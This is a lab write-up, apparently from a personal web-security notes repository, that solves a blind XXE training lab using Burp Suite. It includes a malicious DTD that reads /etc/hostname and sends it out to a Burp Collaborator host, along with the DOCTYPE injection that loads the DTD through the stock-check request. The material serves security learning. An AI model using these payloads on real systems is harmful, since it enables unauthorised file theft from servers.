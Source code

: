 ![image](https://github.com/udayk01/Web-Security/assets/52235763/c8b9e176-8d20-4a24-9137-c5824dcbcf53)

## Solution:

> Using Burp Suite Professional, go to the Collaborator tab.
> Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
> Place the Burp Collaborator payload into a malicious DTD file:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

![Screenshot 2024-04-20 103538](https://github.com/udayk01/Web-Security/assets/52235763/26a6bf56-8e95-47a6-880d-d1c4637ffc08)

> Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.

![image](https://github.com/udayk01/Web-Security/assets/52235763/8d18420a-9f4c-44b8-8f5f-4eda05f6be77)

> You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/udayk01/Web-Security/assets/52235763/945efe94-ccd3-4132-b6f2-c0c75eeb1638)

> Insert the following external entity definition in between the XML declaration and the stockCheck element:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
![image](https://github.com/udayk01/Web-Security/assets/52235763/76c1fc7b-c13c-4158-92f9-ec4630c21422)

> Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.

![image](https://github.com/udayk01/Web-Security/assets/52235763/cf020a67-6ad1-43cc-bdff-ed03cb6794f3)

> You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the /etc/hostname file.

![image](https://github.com/udayk01/Web-Security/assets/52235763/c6682e80-2216-44ec-bcb2-834e7ad37e4e)

![Screenshot 2024-04-20 104245](https://github.com/udayk01/Web-Security/assets/52235763/8d0564bc-8786-44af-8086-af6fa327000b)

> Lab Solved

![Screenshot 2024-04-20 104327](https://github.com/udayk01/Web-Security/assets/52235763/e8232edf-d8f4-41ed-9ea5-c4604d4bf6cc)

